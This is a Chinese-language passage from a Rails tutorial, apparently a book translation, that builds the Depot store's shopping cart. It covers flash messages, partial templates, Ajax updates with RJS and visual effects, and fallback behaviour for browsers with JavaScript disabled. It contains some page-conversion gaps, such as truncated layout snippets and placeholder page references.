所以，日志记录生效了。但是 flash 消息没有出现在用户的浏览器上。那是因为我们没有显示它。我们需要向布局中添加一些东西，告诉它在存在 flash 消息时显示它们。以下 rhtml 代码检查是否存在 notice 级别的 flash 消息，并在必要时创建一个包含它的新 `<div>`。

```rhtml
<% if flash[:notice] -%>
    <div id="notice"><%= flash[:notice] %></div>
<% end -%>
```

那么，我们应该把这段代码放在哪里呢？我们可以把它放在商品目录显示模板的顶部——也就是 `index.html` 中的代码。毕竟，那是我们现在希望它出现的地方。但随着我们继续开发应用程序，如果所有页面都有一个标准化的方式来显示错误，那就太好了。我们已经在使用 Rails 布局来赋予所有商店页面一致的外观，所以让我们将 flash 处理代码添加到该布局中。这样，如果我们的客户突然决定错误显示在侧边栏会更好，我们只需进行一次更改，所有商店页面都会更新。所以，我们新的商店布局代码现在如下所示。

```html
<html>
<head>
    <title>Pragprog Books Online Store</title>
    <%= stylesheet_link_tag "depot", :media => "all" %>
</head>
<body id="store">
    <div id="banner">
        
        <%= @page_title || "Pragmatic Bookshelf" %>
    </div>
    <div id="columns">
        <div id="side">
            <a href="http://www....">Home</a><br />
            <a href="http://www..../faq">Questions</a><br />
            <a href="http://www..../news">News</a><br />
            <a href="http://www..../contact">Contact</a><br />
        </div>
```

```rhtml
<div id="main">
  <% if flash[:notice] -%>
    <div id="notice"><%= flash[:notice] %></div>
  <% end -%>
  <%= @content_for_layout %>
</div>
</body>
</html>
```

我们还需要一个新的 CSS 样式来修饰通知框：

```css
#notice {
  border: 2px solid red;
  padding: 1em;
  margin-bottom: 2em;
  background-color: #f0f0f0;
  font: bold smaller sans-serif;
}
```

这次，当我们手动输入无效的产品代码时，我们在商品目录页面的顶部看到了报告的错误。



感觉到一个迭代即将结束，我们叫客户过来，向她展示错误现在已被妥善处理。她很高兴，并继续试用应用程序。她在我们新的购物车显示页面上注意到了一个细微之处——没有办法清空购物车里的商品。这个小改动将是我们下一个迭代的内容。我们应该在回家前完成它。

> **David 说……**
>
> **需要多少内联错误处理？**
>
> `add_to_cart()` 方法展示了 Rails 中的高级错误处理版本，其中特定的错误得到了专门的关注和处理代码。并非每一个可能的错误都值得花那么多时间去捕获。许多会导致应用程序引发异常的输入错误发生得如此罕见，以至于我们宁愿将它们统一处理到一个通用的错误页面。
>
> 我们将在第 ?? 页看到如何为你的应用程序添加一个全局错误处理器。

## 8.5 迭代 C4：完成购物车

我们现在知道，为了实现清空购物车功能，我们必须在购物车中添加一个链接，并在商店控制器中实现一个 `empty_cart()` 方法。让我们从模板开始。与其使用超链接，不如使用 `button_to()` 方法在页面上放置一个按钮。

```text
Download depot_h/app/views/store/add_to_cart.rhtml
```

```rhtml
<h1>Your Pragmatic Cart</h1>

<ul>
  <% for cart_item in @cart.items %>
    <li><%= cart_item.quantity %> &times; <%= h(cart_item.title) %></li>
  <% end %>
</ul>

<%= button_to "Empty cart", :action => :empty_cart %>
```

在控制器中，我们将实现 `empty_cart()` 方法。它会将会话中的购物车移除，并在重定向到 index 页面之前设置一条 flash 消息。

```text
Download depot_h/app/controllers/store_controller.rb
```

```ruby
def empty_cart
  session[:cart] = nil
  flash[:notice] = "Your cart is currently empty"
  redirect_to :action => :index
end
```

现在，当我们查看购物车并点击清空购物车链接时，我们会回到商品目录页面，并且有一条漂亮的小消息显示。


然而，在我们高兴得手舞足蹈之前，让我们回顾一下我们的代码。我们刚刚引入了一些重复代码。

在商店控制器中，我们现在有两个地方向 flash 放入消息并重定向到 index 页面。听起来我们应该将这些公共代码提取到一个方法中，所以让我们实现 `redirect_to_index()` 方法，并修改 `add_to_cart()` 和 `empty_cart()` 方法以使用它。

```text
Download depot_i/app/controllers/store_controller.rb
```

```ruby
def add_to_cart
  begin
    @product = Product.find(params[:id])
  rescue
    logger.error("Attempt to access invalid product #{params[:id]}")
    redirect_to_index("Invalid product")
  else
    @cart = find_cart
    @cart.add_product(@product)
  end
end

def empty_cart
  session[:cart] = nil
  redirect_to_index("Your cart is currently empty")
end

private

def redirect_to_index(msg)
  flash[:notice] = msg
  redirect_to :action => :index
end
```

最后，我们将着手整理购物车显示。我们不再为每个商品使用 `<li>` 元素，而是使用表格。同样，我们将依靠 CSS 来完成样式设计。

```text
Download depot_i/app/views/store/add_to_cart.rhtml
```

```rhtml
<div class="cart-title">Your Cart</div>
<table>
  <% for cart_item in @cart.items %>
    <tr>
```

## 第九章

## 任务 D：添加一点 Ajax

我们的客户希望我们为商店添加 Ajax 支持。但 Ajax 到底是什么呢？

在过去（直到一两年前），浏览器被视为非常“笨拙”的设备。当您编写基于浏览器的应用程序时，您会将内容发送到浏览器，然后就忘记了那个会话。在某个时刻，用户会填写一些表单字段或点击超链接，您的应用程序才会被传入的请求“唤醒”。它会向用户渲染一个完整的页面，然后整个繁琐的过程重新开始。到目前为止，我们的 Depot 应用程序正是这样运行的。

但事实证明，浏览器实际上并没有那么“笨”（谁能想到呢？）。它们可以运行代码。几乎所有浏览器都可以运行 JavaScript（绝大多数也支持 Adobe 的 Flash）。而且事实证明，浏览器中的 JavaScript 可以在幕后与服务器上的应用程序交互，从而更新用户看到的内容。Jesse James Garrett 将这种交互风格命名为 Ajax（它曾经代表 Asynchronous JavaScript and XML，但现在仅意味着让浏览器不那么难用）。

那么，让我们来“Ajax 化”我们的购物车。我们不单独设置一个购物车页面，而是将当前的购物车显示放入商品目录的侧边栏中。然后，我们将添加 Ajax 魔法，在不重新显示整个页面的情况下更新侧边栏中的购物车。

无论何时使用 Ajax，最好先从非 Ajax 版本的应用程序开始，然后逐步引入 Ajax 功能。我们在这里也将这样做。首先，让我们把购物车从它自己的页面移动出来，放入侧边栏。

## 9.1 迭代 D1：移动购物车

目前，我们的购物车由 `add_to_cart` 操作和对应的 `.rhtml` 模板渲染。我们想要做的是将那个渲染过程移动到显示整体商品目录的布局中。而这很容易，使用局部模板即可实现。

### 局部模板

编程语言允许您定义方法。方法是一块有名字的代码：通过名字调用方法，相应的代码块就会运行。当然，您可以向方法传递参数，这使您可以编写一段可以在许多不同情况下使用的代码。

您可以将 Rails 局部模板（简称 partial）看作是视图的一种方法。局部模板就是一个单独文件中的视图代码片段。您可以从另一个模板或控制器渲染一个局部模板，该局部模板会返回其自身的渲染结果。而且，就像方法一样，您可以向局部模板传递参数，因此同一个局部模板可以渲染出不同的结果。

在本迭代中，我们将使用两次局部模板。首先，让我们看看购物车显示本身。

```text
Download depot_i/app/views/store/add_to_cart.rhtml
```

```rhtml
<div class="cart-title">Your Cart</div>
<table>
  <% for cart_item in @cart.items %>
    <tr>
      <td><%= cart_item.quantity %>&times;</td>
      <td><%= h(cart_item.title) %></td>
      <td class="item-price"><%= format_price(cart_item.price) %></td>
    </tr>
  <% end %>

  <tr class="total-line">
    <td colspan="2">Total</td>
    <td class="total-cell"><%= format_price(@cart.total_price) %></td>
  </tr>
</table>
```

<sup>1</sup> 另一种方式是使用组件。组件是一种打包控制器完成的工作和相应渲染的方式。在我们的案例中，可以有一个名为 `display_cart` 的组件，其中控制器操作从会话中获取购物车信息，而视图渲染购物车的 HTML。然后布局会将这个渲染好的 HTML 插入侧边栏。然而，有迹象表明组件在 Rails 社区中正在失宠，所以我们在这里不使用它。（关于组件为何不再流行，参见 `sec.dont.use.components`。）

它创建了一个表格行列表，每行对应购物车中的一个商品。当您发现自己在进行这样的迭代时，您可能需要停下来问自己：“模板里的逻辑是不是太多了？”事实证明，我们可以使用局部模板来抽象掉这个循环（而且，正如我们将看到的，这也为稍后的 Ajax 魔法奠定了基础）。为此，我们将利用一个事实：您可以将一个集合传递给渲染局部模板的方法，该方法将自动为集合中的每个项目调用一次局部模板。让我们重写我们的购物车视图以使用此功能。

```rhtml
<div class="cart-title">Your Cart</div>
<table>
  <%= render(:partial => "cart_item", :collection => @cart.items) %>

  <tr class="total-line">
    <td colspan="2">Total</td>
    <td class="total-cell"><%= format_price(@cart.total_price) %></td>
  </tr>
</table>

<%= button_to "Empty cart", :action => :empty_cart %>
```

这样就简单多了。`render()` 方法接受局部模板的名称和集合作为参数。局部模板本身是另一个模板文件（默认情况下与调用它的模板在同一目录下）。但是，为了将局部模板的名称与常规模板区分开，Rails 在查找文件时会自动在局部模板名称前添加下划线。这意味着我们的局部模板将存储在 `app/views/store` 目录下的 `_cart_item.rhtml` 文件中。

```rhtml
<tr>
  <td><%= cart_item.quantity %>&times;</td>
  <td><%= h(cart_item.title) %></td>
  <td class="item-price"><%= format_price(cart_item.price) %></td>
</tr>
```

这里有一些微妙之处。在局部模板内部，我们使用变量 `cart_item` 来引用当前的购物车商品。这是因为主模板中的 `render` 方法在每次循环时，会将与局部模板同名的变量设置为当前项。局部模板名为 `cart_item`，因此在局部模板内部，我们期望有一个名为 `cart_item` 的变量。

所以现在我们已经整理好了购物车的显示，但还没有把它移动到侧边栏中。为此，让我们重新审视我们的布局。如果我们有一个可以显示购物车的局部模板，我们就可以简单地在侧边栏中嵌入一个调用：

```ruby
render(:partial => "cart")
```

但是局部模板如何知道在哪里找到 `cart` 对象呢？一种方法是让它做一个假设。在布局中，我们可以访问由控制器设置的 `@cart` 实例变量。事实证明，从布局调用的局部模板中也可以访问它。然而，这有点像调用一个方法并通过全局变量传递一些值。它能工作，但这是糟糕的编码方式，而且增加了耦合（这反过来会使你的程序变得脆弱且难以维护）。

还记得在 `add_to_cart` 模板中使用带 `collection` 选项的 `render` 吗？它在局部模板内部设置了变量 `cart_item`。事实证明，当我们直接调用局部模板时，也可以做同样的事情。`render()` 的 `:object` 参数接受一个对象，该对象被分配给一个与局部模板同名的局部变量。因此，在布局中我们可以调用：

```rhtml
<%= render(:partial => "cart", :object => @cart) %>
```

而在 `_cart.rhtml` 模板中，我们可以通过变量 `cart` 来引用购物车。

现在让我们进行这个连接。首先，我们将创建 `_cart.rhtml` 模板。这基本上是我们的 `add_to_cart` 模板，但使用 `cart` 而不是 `@cart`。（请注意，局部模板调用其他局部模板是可以的。）

```rhtml
<div class="cart-title">Your Cart</div>
<table>
  <%= render(:partial => "cart_item", :collection => cart.items) %>
  <tr class="total-line">
    <td colspan="2">Total</td>
    <td class="total-cell"><%= format_price(cart.total_price) %></td>
  </tr>
</table>

<%= button_to "Empty cart", :action => :empty_cart %>
```

现在我们将更改商店布局，在侧边栏中包含这个新的局部模板。

```html
<html>
<head>
```

为了使其工作，我们需要向 Cart 模型添加一个返回所有商品总价的方法。我们可以使用 Ruby 精巧的 `inject()` 方法来实现，该方法用于计算集合中每个商品价格的总和。

```text
Download depot_i/app/models/cart.rb
```

```ruby
def total_price
  @items.inject(0) { |sum, item| sum + item.price }
end
```

这使我们的购物车外观更好，如图 8.5 所示。

### 我们刚刚做了什么

这是忙碌而富有成效的一天。我们为商店添加了购物车，其间还初步体验了一些巧妙的 Rails 特性。

- 使用会话存储状态
- 创建并集成非数据库模型
- 使用 flash 在操作之间传递错误
- 使用记录器记录事件
- 从控制器中消除重复代码

我们还产生了不少错误，并看到了如何解决它们。

但是，就在我们以为已经完成了这个功能时，我们的客户拿着一份《*信息技术与高尔夫周刊*》走了过来。显然，里面有一篇关于新型浏览器界面的文章，内容可以实时更新。“Ajax，”她自豪地说。嗯……我们明天再来看看那个吧。

在本章中，我们将看到：

- 局部模板
- 渲染到页面布局中
- 使用 Ajax 和 `rjs` 进行动态更新
- 使用 Script.aculo.us 高亮显示变化


- 隐藏和显示 DOM 元素
- 在 JavaScript 被禁用时如何工作

## 更改流程

既然我们已经在侧边栏中显示了购物车，那么就可以更改“添加到购物车”按钮的工作方式了。无需再显示单独的购物车页面，它只需刷新主索引页面即可。这个改动非常简单：在`add_to_cart`操作的末尾，我们只需将浏览器重定向回索引页面。

```ruby
### Download depot_i/app/controllers/store_controller.rb

def add_to_cart
  begin
    @product = Product.find(params[:id])
  rescue
    logger.error("Attempt to access invalid product #{params[:id]}")
    redirect_to_index("Invalid product")
  else
    @cart = find_cart
    @cart.add_product(@product)
    redirect_to_index
  end
end
```

为了让这能正常工作，我们需要更改`redirect_to_index()`的定义，使其`msg`参数变为可选。

```ruby
### Download depot_k/app/controllers/store_controller.rb

def redirect_to_index(msg = nil)
  flash[:notice] = msg if msg
  redirect_to :action => :index
end
```

我们现在应该删除`add_to_cart.rhtml`模板——它已经不需要了。（更重要的是，保留它会在本章后面引起混淆）。

所以，现在我们有了一个侧边栏带有购物车的商店。当你点击将商品添加到购物车时，页面会重新显示并更新购物车。然而，如果我们的商品目录很大，重新显示可能会花费一些时间。它会占用带宽和服务器资源。幸运的是，我们可以使用 Ajax 来改善这一点。

## 9.2 迭代 D2：基于 Ajax 的购物车

Ajax 让我们能在浏览器中运行代码，与我们的服务器端应用程序进行交互。在我们的例子中，我们希望“添加到购物车”按钮能在后台调用服务器的`add_to_cart`操作。然后服务器可以只发送购物车的 HTML 片段，我们可以用服务器的更新来替换侧边栏中的购物车。

通常，你会通过在浏览器中编写 JavaScript 代码，并编写与之通信的服务器端代码（可能使用 JSON 等技术）来实现这一点。好消息是，使用 Rails，所有这些都对你隐藏了。我们可以只用 Ruby 来完成我们需要做的所有事情（并且有很多 Rails 辅助方法的支持）。

在应用程序中添加 Ajax 的诀窍是采取小步走。所以，让我们从最基本的一步开始。让我们更改商品目录页面，使其向服务器应用程序发送 Ajax 请求，并让应用程序用包含更新后购物车的 HTML 片段进行响应。

在索引页面上，我们当前使用`button_to()`来创建“添加到购物车”链接。记住，在底层，`button_to()`会生成一个 HTML `<form>`。辅助方法

```erb
<%= button_to "Add to Cart", :action => :add_to_cart, :id => product %>
```

生成的 HTML 看起来像这样：

```html
<form method="post" action="/store/add_to_cart/1" class="button-to">
  <input type="submit" value="Add to Cart" />
</form>
```

这是一个标准的 HTML 表单，因此当用户点击提交按钮时会生成 POST 请求。我们希望将其改为发送 Ajax 请求。为此，我们需要更明确地编写表单，使用一个名为`form_remote_tag`的 Rails 辅助方法。名称中的`form_..._tag`部分告诉你它正在生成一个 HTML 表单，而`remote`部分告诉你它将使用 Ajax 对你的应用程序进行远程过程调用。所以，打开`app/views/store`目录中的`index.rhtml`，并将`button_to()`调用替换为类似这样的内容：

```erb
### Download depot_1/app/views/store/index.rhtml

<%= form_remote_tag :url => { :action => :add_to_cart, :id => product } %>
    <%= submit_tag "Add to Cart" %>
<%= end_form_tag %>
```

你通过`:url`参数告诉`form_remote_tag()`如何调用你的服务器应用程序。它接受一个值的哈希，这些值与我们传递给`button_to()`的尾部参数相同。在表单内部，我们有一个简单的提交按钮。从用户的角度来看，这个页面看起来与之前的页面完全相同。

在处理视图时，我们还需要安排应用程序将 Rails 使用的 JavaScript 库发送到用户的浏览器。我们将在第 20 章 *Web, V2.0*（第 451 页）中详细讨论这一点，但现在，让我们在商店布局的`<head>`部分添加对`javascript_include_tag`的调用。

```erb
### Download depot_1/app/views/layouts/store.rhtml

<html>
<head>
    <title>Pragprog Books Online Store</title>
    <%= stylesheet_link_tag "depot", :media => "all" %>
    <%= javascript_include_tag :defaults %>
</head>
```

到目前为止，我们已经安排浏览器向我们的应用程序发送 Ajax 请求。下一步是让应用程序发回响应。计划是创建代表购物车的更新后的 HTML 片段，并让浏览器将该 HTML 插入到 DOM 中，以替换已经存在的购物车。第一个更改是停止`add_to_cart`操作重定向到索引显示。（我知道，我们几页前才添加了这个。现在我们又要把它移除了。我们很敏捷，对吧？）

```ruby
### Download depot_1/app/controllers/store_controller.rb

def add_to_cart
    begin
        @product = Product.find(params[:id])
    rescue
        logger.error("Attempt to access invalid product #{params[:id]}")
        redirect_to_index("Invalid product")
    else
        @cart = find_cart
        @cart.add_product(@product)
    end
end
```

这个更改的结果是，当`add_to_cart`完成处理 Ajax 请求时，Rails 会查找`add_to_cart`模板来渲染。我们在第 124 页删除了旧的`.rhtml`模板，所以看起来我们需要添加一些东西回去。让我们做点不同的事情。

Rails 1.1 引入了 RJS 模板的概念。`.rjs`中的`.js`代表 JavaScript。`.rjs`模板是一种让浏览器中的 JavaScript 按你想要的方式运行的方法，全部通过编写服务器端 Ruby 代码来实现。让我们编写我们的第一个：`add_to_cart.rjs`。它就像任何其他模板一样，放在`app/views/store`目录中。

```ruby
### Download depot_i/app/views/store/add_to_cart.rjs

page[:cart].replace_html :partial => 'cart', :object => @cart
```

让我们分析一下这个模板。`page`变量是一个叫做 JavaScript Generator 的东西的实例——一个 Rails 类，知道如何在服务器上创建 JavaScript 并让浏览器执行。在这里，我们告诉它在当前页面上找到 id 为`cart`的元素，然后用……东西替换其内容。`replace_html`的参数看起来很熟悉。它们应该——因为它们与我们在商店布局中渲染局部模板时使用的参数相同。这个简单的`.rjs`模板渲染代表购物车的 HTML。然后它告诉浏览器用该 HTML 替换 id 为`cart`的`<div>`的内容。

它能工作吗？在书中很难展示，但它确实能工作。确保你重新加载索引页面，以便将`form_remote_tag`和 JavaScript 库加载到浏览器中。然后，点击其中一个“添加到购物车”链接。你应该看到侧边栏中的购物车更新。而且，你*不应该*看到你的浏览器显示任何重新加载页面的迹象。你刚刚创建了一个 Ajax 应用程序。

### 故障排除

尽管 Rails 让 Ajax 变得极其简单，但它不能使其万无一失。而且，因为你处理的是多种技术的松散集成，如果 Ajax 不工作，可能会很难追踪问题。

这就是你应该始终逐步添加 Ajax 功能的原因之一。

页面 ?? 上的`sec.debug.ajax`包含了大量关于调试 Ajax 应用程序的信息。不过，现在先提供一些提示，如果你的 Depot 应用程序没有显示任何 Ajax 效果的话。

- 你是否记得在商店布局中包含了 JavaScript 库（使用`javascript_include_tag`）？
- 你的浏览器是否有什么特殊的设置或方法强制它重新加载页面上的所有内容？有时浏览器会保存页面资源的本地缓存版本，这可能会搞乱测试。现在进行一次完全重新加载是个好时机。
- 你是否有收到任何错误报告？查看日志目录中的`development.log`。
- 继续查看日志文件，你是否看到对`add_to_cart` action 的传入请求？如果没有，这意味着你的浏览器没有发出 Ajax 请求。如果 JavaScript 库已经被加载（使用浏览器的“查看源代码”可以看到 HTML），也许你的浏览器禁用了 JavaScript 执行？
- 一些读者报告说，他们必须停止并重新启动应用程序，才能让基于 Ajax 的购物车正常工作。

如果所有方法都失败了，请查看本节开头提到的更严肃的调试提示。

### 客户永不满足

我们对自己感到相当满意。我们只改了几行代码，我们那个无聊的旧 Web 1.0 应用程序现在就披上了 Web 2.0 的 Ajax 速度条纹。我们气喘吁吁地把客户叫过来。什么也没说，我们自豪地按下“添加到购物车”按钮，然后看着她，期待着我们知道会到来的赞扬。然而，她看起来很惊讶。“你叫我过来是想给我看一个 bug 吗？”她问道。“你按了那个按钮，什么也没发生。”

我们耐心地解释说，事实上，发生了相当多的事情。看看侧边栏里的购物车。看到了吗？当我们添加东西时，数量从 4 变成了 5。

“哦”，她说，“我没注意到。”而且，如果我们更新页面她都没注意到，很可能我们的客户也不会注意到。是时候进行一些用户界面的小改进了。



图 9.2：我们带有黄色淡出效果的购物车

## 9.3 迭代 D3：突出显示变更

我们之前说过，`javascript_include_tag`辅助方法会将一些 JavaScript 库下载到浏览器。其中一个库是`effects.js`，它允许你用许多视觉上有趣的效果来装饰你的网页。<sup>3</sup> 其中一个效果是（现在）臭名昭著的黄色淡出技术。这可以在浏览器中突出显示一个元素：默认情况下，它会闪烁黄色背景，然后逐渐淡回白色。图 9.2 显示了应用于我们购物车的黄色淡出技术：后面的图片显示了原始的购物车。用户点击“添加到购物车”按钮，当该行变得更亮时，计数更新为二。然后它在短时间内淡回背景颜色。

让我们给我们的购物车添加这种高亮显示。每当购物车中的一个商品被更新时（无论是添加还是我们更改数量），就让它闪烁背景。这将使我们的用户更清楚地知道某些东西已经改变了，即使整个页面没有刷新。

我们面临的第一个问题是识别购物车中最近更新的商品。目前，每个商品只是一个`<tr>`元素。我们需要找到一种方法来标记最近更改的那个。工作从 Cart 模型开始。让`add_product()`方法返回添加到购物车或其数量被更新的 CartItem 对象。

```ruby
def add_product(product)
  current_item = @items.find {|item| item.product == product}
  if current_item
    current_item.increment_quantity
  else
    current_item = CartItem.new(product)
    @items << current_item
  end
  current_item
end
```

在`store_controller.rb`中，我们将获取该信息并通过分配给实例变量将其传递给模板。

```ruby
def add_to_cart
  begin
    @product = Product.find(params[:id])
  rescue
    logger.error("Attempt to access invalid product #{params[:id]}")
    redirect_to_index("Invalid product")
  else
    @cart = find_cart
    @current_item = @cart.add_product(@product)
  end
end
```

在`_cart_item.rhtml`部分模板中，我们检查正在渲染的商品是否就是刚刚更改的那个。如果是，我们就用`current_item`的 id 标记它。

```erb
<% if cart_item == @current_item %>
  <tr id="current_item">
<% else %>
  <tr>
<% end %>
  <td><%= cart_item.quantity %>&times;</td>
  <td><%= h(cart_item.title) %></td>
  <td class="item-price"><%= format_price(cart_item.price) %></td>
</tr>
```

作为这三个小更改的结果，购物车中最近更改的商品的`<tr>`元素将被标记为`id="current_item"`。现在我们只需要告诉 JavaScript 对该元素调用高亮效果。我们通过在现有的`add_to_cart.rjs`模板中添加对`visual_effect`方法的调用来实现。

```ruby
page[:cart].replace_html :partial => 'cart', :object => @cart

page[:current_item].visual_effect :highlight,
  :startcolor => "#88ff88",
  :endcolor => "#114411"
```

看看我们是如何通过将`:current_item`传递给 page 来识别我们想要应用效果的浏览器元素的。然后我们请求了*highlight*视觉效果，并用更适合我们设计的颜色覆盖了默认的黄色/白色过渡。点击将商品添加到购物车，你会看到购物车中更改的商品闪烁浅绿色光芒，然后淡出并融入背景。

## 9.4 迭代 D4：隐藏空的购物车

客户的最后一个请求：目前，即使是空的购物车也仍然显示在侧边栏中。我们能否安排一下，让购物车只在包含内容时才显示？当然可以！

事实上，我们有多种选择。最简单的可能是在购物车有内容时才包含购物车的 HTML。我们完全可以在`_cart`部分模板中完成。

```erb
<% unless cart.items.empty? %>
<div class="cart-title">Your Cart</div>
<table>
  <%= render(:partial => "cart_item", :collection => cart.items) %>

  <tr class="total-line">
    <td colspan="2">Total</td>
    <td class="total-cell"><%= format_price(cart.total_price) %></td>
  </tr>
</table>

<%= button_to "Empty cart", :action => :empty_cart %>
<% end %>
```

虽然这可行，但用户界面有点粗糙：在空购物车和非空购物车之间切换时，整个侧边栏会重绘。所以，我们不使用这段代码。相反，让我们把它做得更平滑一点。

script.aculo.us 效果库包含许多不错的过渡效果，可以让元素出现。让我们使用*blind_down*，它会平滑地显示购物车，同时将侧边栏的其余部分向下滑动以腾出空间。

不足为奇，我们将使用现有的`.rjs`模板来调用该效果。因为`add_to_cart`模板仅在我们添加东西到购物车时被调用，那么我们知道，当购物车中恰好有一个商品时，我们必须在侧边栏中显示购物车（因为这意味着之前购物车是空的，因此被隐藏了）。而且，因为购物车应该在开始高亮效果之前可见，我们将把显示购物车的代码添加在触发高亮的代码之前。

模板现在看起来像这样：


```ruby
page[:cart].replace_html :partial => 'cart', :object => @cart
page[:cart].visual_effect :blind_down if @cart.total_items == 1
page[:current_item].visual_effect :highlight,
                                :startcolor => "#88ff88",
                                :endcolor => "#114411"
```

这还不能工作，因为我们的购物车模型中还没有`total_items()`方法。

```ruby
def total_items
  @items.inject(0) {|sum, item| sum + item.quantity}
end
```

我们必须安排在购物车为空时隐藏它。有两种基本方法。一种，如本节开头的代码所示，是根本不生成任何 HTML。不幸的是，如果那样做，那么当我们添加东西到购物车，并突然创建购物车 HTML 时，我们会看到浏览器闪烁一下，因为购物车首先显示，然后隐藏，并通过`blind_down`效果慢慢显示。

处理这个问题的更好方法是创建购物车 HTML，但如果购物车为空，则将 CSS 样式设置为`display: none`。为此，我们需要更改`app/views/layouts`中的`store.rhtml`布局。我们的第一次尝试是这样的：

```erb
<div id="cart"
  <% if @cart.items.empty? %>
    style="display: none"
  <% end %>
>
```

<sup>3</sup> `effects.js`是 script.aculo.us 库的一部分。请查看[http://wiki.script.aculo.us/scriptaculous/show/VisualEffects](http://wiki.script.aculo.us/scriptaculous/show/VisualEffects)上的视觉效果页面，看看你可以用它做的很酷的事情。

这段代码为`<div>`标签添加了 CSS `style=`属性，但仅在购物车为空时生效。虽然它能正常工作，但确实非常难看。那个悬垂的`>`字符看起来放错了位置（即使实际上没有），而逻辑被插入到标签中间的方式，正是让模板语言声名狼藉的那种做法。我们不要让这种丑陋的东西污染我们的代码。相反，让我们创建一个抽象来隐藏它。

我们来编写一个名为`hidden_div_if`的辅助方法。它接受一个条件和一组可选的属性。它创建一个`<div>`标签，如果条件为真，则添加`display: none`样式。我们将在店铺布局中这样使用它。

```erb
<%= hidden_div_if(@cart.items.empty?, :id => "cart") %>
  <%= render(:partial => "cart", :object => @cart) %>
</div>
```

我们将编写这个辅助方法，使其通过将其添加到`app/helpers`目录下的`store_helper.rb`文件来限定在店铺控制器内。

```ruby
module StoreHelper
  def hidden_div_if(condition, attributes = {})
    if condition
      attributes["style"] = "display: none"
    end
    attrs = tag_options(attributes.stringify_keys)
    "<div #{attrs}>"
  end

  # format_price 方法 ...
end
```

注意我们在这里稍微“作弊”了。我们从 Rails 标准辅助方法`content_tag()`中复制了代码；这就是我们如何知道以那种方式调用`tag_options()`的方法。<sup>4</sup>

<sup>4</sup> 那我们是如何找到`content_tag()`方法的源代码的呢？我们是在浏览器中调出了 RDoc 文档，然后点击了“查看源代码”链接。

最后，我们需要移除当用户清空购物车时显示的 flash 消息。这其实已经不再需要了，因为当商品目录索引页面重新绘制时，购物车会明显地从侧边栏消失。但移除它还有另一个原因。现在我们使用 Ajax 将物品添加到购物车，在人们购物时，主页面不会重新绘制。这意味着即使我们在侧边栏显示购物车，我们仍会继续显示说购物车为空的 flash 消息。

```ruby
### 下载 depot_n/app/controllers/store_controller.rb
def empty_cart
  session[:cart] = nil
  redirect_to_index
end
```

虽然这看起来步骤很多，但实际上并不多。我们为了让购物车显示和隐藏所做的全部工作，就是使 CSS 的`display`样式取决于购物车中的物品数量，并使用`.rjs`模板在购物车从空变为有一件物品时调用`blind_down`效果。

每个人都对我们这个花哨的新界面感到兴奋。事实上，因为我们的电脑在办公网络上，我们的同事将他们的浏览器指向我们的测试应用程序，并亲自尝试。当人们惊叹于购物车出现然后更新的方式时，随之而来的是许多低低的惊叹声。每个人都喜欢它。每个人，也就是说，除了布鲁斯。布鲁斯不信任在他浏览器中运行的 JavaScript，所以把它关掉了。而且，一旦禁用了 JavaScript，我们所有花哨的 Ajax 都停止工作了。当布鲁斯向他的购物车添加东西时，他看到了一些奇怪的东西：

```
$("cart").update("<h1>Your Cart</h1>\n\n<ul>\n  \n <li id=\"current_item\">\n\n  3 &times; Pragmatic Project Automation\n</li>\n</ul>\n  \n<form method=\"post\" action=\"/store/empty_cart\" class=\"button-to...
```

显然这不行。我们需要让我们的应用程序在用户浏览器禁用 JavaScript 时也能工作。这将是我们下一次迭代的任务。

## 9.5 迭代 D5：JavaScript 禁用时的降级处理

还记得在第 123 页，我们安排让购物车显示在侧边栏吗？这是在我们向应用程序添加一行 Ajax 代码之前完成的。如果浏览器禁用了 JavaScript，我们可以回退到这种行为，那么应用程序对布鲁斯和其他同事就都能工作了。这基本上意味着，如果传入的`add_to_cart`请求不是来自 JavaScript，我们就想执行原始应用程序所做的操作，即重定向到索引页面。当索引页面显示时，更新后的购物车将出现在侧边栏中。

当用户按下`form_remote_tag`内的按钮时，会发生两种情况之一。如果禁用了 JavaScript，应用程序中的目标操作会通过常规的 HTTP POST 请求被调用——它表现得就像一个普通表单。然而，如果启用了 JavaScript，它会覆盖这个常规的 POST，而是使用一个 JavaScript 对象来建立与服务器的后台通道。这个对象是`XmlHTTPRequest`类的一个实例。因为这个名字太长，大多数人（和 Rails）将其缩写为 xhr。

因此，在服务器端，我们可以通过测试传入的请求是否由 xhr 对象生成，来判断我们是否在与启用了 JavaScript 的浏览器通信。而 Rails 的`request`对象，在控制器和视图内部可用，使得测试这个条件变得很容易：它提供了一个`xhr?`方法。结果是，要使我们的应用程序无论是否启用 JavaScript 都能工作，只需要在`add_to_cart`动作中添加一行代码。

```ruby
### 下载 depot_o/app/controllers/store_controller.rb
def add_to_cart
  begin
    @product = Product.find(params[:id])
  rescue
    logger.error("Attempt to access invalid product #{params[:id]}")
    redirect_to_index("Invalid product")
  else
    @cart = find_cart
    @current_item = @cart.add_product(@product)
    redirect_to_index unless request.xhr?
  end
end
```

## 9.6 我们刚刚做了什么

在这次迭代中，我们为购物车添加了 Ajax 支持。

- 我们将购物车移入了侧边栏，并安排`add_to_cart`动作重新显示商品目录页面。
- 我们使用`form_remote_tag()`通过 Ajax 请求调用`add_to_cart`动作。
- 然后我们使用`.rjs`模板仅用购物车的 HTML 来更新浏览器。
- 为了帮助用户看到购物车的变化，我们添加了高亮效果，同样使用`.rjs`模板。
